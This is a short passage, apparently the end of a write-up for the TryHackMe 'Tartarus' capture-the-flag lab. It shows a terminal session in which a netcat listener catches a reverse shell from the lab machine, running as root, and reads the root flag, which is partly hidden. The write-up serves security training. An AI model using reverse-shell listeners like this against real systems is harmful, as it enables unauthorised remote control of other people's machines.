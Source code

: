 ```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Tartarus]
└──╼ $nc -nvlp 8080
listening on [any] 8080 ...
connect to [10.8.21.217] from (UNKNOWN) [10.10.30.144] 33596
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cd /root/
# cat root.txt
7e055812184a5fa<HIDDEN>
# 
```

Root dance! 

Thanks for reading!